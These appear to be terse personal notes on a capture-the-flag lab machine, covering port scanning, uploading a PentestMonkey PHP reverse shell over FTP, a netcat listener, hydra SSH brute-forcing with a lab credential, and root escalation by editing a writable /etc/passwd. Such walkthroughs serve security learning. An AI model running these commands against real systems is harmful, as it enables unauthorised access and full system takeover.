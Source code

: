 Other players writeup
> https://kir0sploit.github.io/2023/02/cybersphere-writeup/

Command and Techniques:

nmap -sC -p- -sV $IP -oN nmap.txt –vv
ftp: put reverse shell
> php PentestMonkey
> put the openvpn ip
> save the file on current dir
cd webalizer
put getin.php
bye
- attacker先run： nc -nlvp 8899
- run the reverse shell by running the web browser: 10.10.207.136/webalizer/getin.php
hydra  -l   jack  -P  /usr/share/wordlists/rockyou.txt   ssh://10.10.233.62
login: jack   password: qwertyuiop
goto /home we know that user is jack.
- we dont know the password
- use the hydra to bruteforce the ssh password
- after knowing the password, su jack
- execute interactive command:
	python2 -c 'import pty;pty.spawn("/bin/bash")'
	export TERM=xterm
	press CTRL + Z
	stty raw -echo;fg
- open new terminal: run another remote command
boom! get the jack shell

or

ssh jack@10.10.233.62 
run the Linpeas tool on the /tmp directory - to see which path is vulnerable that we could edit/modify
ls  -al  /etc/passwd

or

sudo -l
generate encryted password: openssl passwd [your password]
nano  /etc/passwd - paste the passwd on x
su root
